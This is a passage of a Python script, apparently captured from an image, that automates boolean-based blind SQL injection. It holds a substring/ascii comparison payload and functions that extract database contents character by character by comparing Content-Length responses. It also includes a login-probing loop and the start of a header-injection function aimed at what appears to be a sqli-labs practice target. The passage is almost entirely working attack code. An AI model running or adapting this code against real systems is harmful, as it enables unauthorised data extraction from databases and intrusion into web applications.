 ```python
    :param schema:
    :return:
    '''
    payload = "' and (select ascii(substring((select group_concat({column}) from {table}),{start},1))) = {asc} -- "
    dump_str = ''
    query_len = get_query_len('data', url, args_name=schema)
    print(f'query_len:{query_len}')
    html_len = requests.get(url).headers.get('Content-Length')
    print(html_len)
    asc_list = [44] + [x for x in range(48, 58)] + [x for x in range(65, 91)] + [x for x in range(97, 123)]
    if len(schema) != 1:
        return False
    table_name = list(schema.keys())[0]
    column_name = schema[table_name]
    for i in range(1, query_len + 1):
        for j in asc_list:
            s = url + payload.format(column=column_name, table=table_name, start=i, asc=str(j))
            req_len = requests.get(s).headers.get('Content-Length')
            time.sleep(0.1)
            if req_len == html_len:
                dump_str += chr(j)
                print(f'start {i}, index: {j},  {dump_str}')
                break
    result = dump_str.split(',')
    return result


def sqli_blind_dump_all_data(url):
    schema = sqli_blind_dump_all_schema(url)
    result = list()
    for i in list(schema.items()):
        temp = dict()
        temp[i[0]] = i[1]
        temp['data'] = sqli_blind_dump_data(url,{i[0]:i[1]})
        result.append(temp)
    for i in result:
        print(list(i.items()))
        print(i['data'])
    return result


def post_login(url):
    while 1:
        uname = input()
        passwd = input()
        # uname = 'admin'
        # passwd = 'admin'
        data = {'uname':uname,'passwd':passwd}
        req = requests.post(url,data=data)
        print(req.headers)
        r = req.text.split('''\r\n\r\n\r\n\r\n''')[2]
        # r = re.findall(r'<br>.*/></font>',r)
        print(r)

def header_injection(url):
    hdr_dic = {
        'Accept': 'text / html, application / xhtml + xml, application / xml',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': 'http: // 192.168.145.129: 8888 / Less - 18 /',
        'Content-Type': 'application / x - www - form - urlencoded',
        'Connection': 'close',
```